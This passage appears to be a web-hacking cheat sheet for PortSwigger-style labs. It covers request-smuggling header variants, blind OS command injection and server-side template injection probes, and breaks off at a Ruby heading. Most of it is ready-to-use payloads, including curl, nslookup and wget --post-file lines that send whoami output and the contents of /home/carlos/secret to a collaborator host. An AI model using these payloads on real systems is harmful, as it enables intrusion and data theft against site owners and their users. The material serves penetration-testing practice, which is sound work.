 ```

Transfer-Encoding : chunked

Transfer-Encoding: chunked  
Transfer-Encoding: x  

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked

Transfer-encoding: identity
Transfer-encoding: cow
```
## OS command injection
The place to find OS Injection is in Submit Feedback page, usually in email input, but, just in case, scan the other inputs too
```
email=||curl+burp.oastify.com?c=`whoami`||
nslookup -q=cname $(cat /home/carlos/secret).burp.oastify.com
```
### Exploits
1. Blind OS command injection with time delays  
```
email=x||ping+-c+10+127.0.0.1||
```
2. Blind OS command injection with output redirection  
```
email=||whoami>/var/www/images/output.txt||
filename=output.txt
```
3. Blind OS command injection with out-of-band interaction  
```
email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
```
4. Blind OS command injection with out-of-band data exfiltration  
```
email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
```
5. Admin Panel ImgSize command injection  
```
/admin-panel/admin_image?image=/blog/posts/50.jpg&ImageSize="200||nslookup+$(cat+/home/carlos/secret).<collaborator>%26"  
Or  
ImgSize="`/usr/bin/wget%20--post-file%20/home/carlos/secret%20https://collaborator/`"
```
## SSTI
SSTI is a direct road to RCE  
Complexity can only arise when searching for the language in which the code was written  
We iterate over template expressions `({{7*7}}, ${7*7},<% = 7*7 %>, ${{7*7}}, #{7*7}, *{7*7})`  
If one of this works, go to [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) and look for all technologies that use this expression  
In case `{{7*7}}` only God can tell you what kind of technology it is.  
Also scan with Burp Scanner  
Arises at View Details with reflected phrase `Unfortunately this product is out of stock`  
### Exploits
1. Basic server-side template injection  
Ruby